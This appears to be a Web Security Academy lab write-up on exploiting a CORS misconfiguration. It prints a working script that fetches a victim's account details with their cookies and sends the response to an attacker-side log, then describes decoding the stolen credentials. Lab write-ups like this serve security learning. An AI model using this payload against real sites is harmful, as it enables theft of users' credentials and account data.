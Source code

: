 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		 Create an XMLHttpRequest instance.  
		 Set the event handler that will be called when the response is received.  
		 opening a GET request to the URL to retrieve account details  
		 Sending cookies and HTTP authentication information in the request  
		 Sending the request  
		 Event handler function called when a response is received from the server  
		 forwarding the current page to a log file with the received response text as parameter  

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235905598-e0c9da27-2a71-47e4-9d20-2c2bb64555c8.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
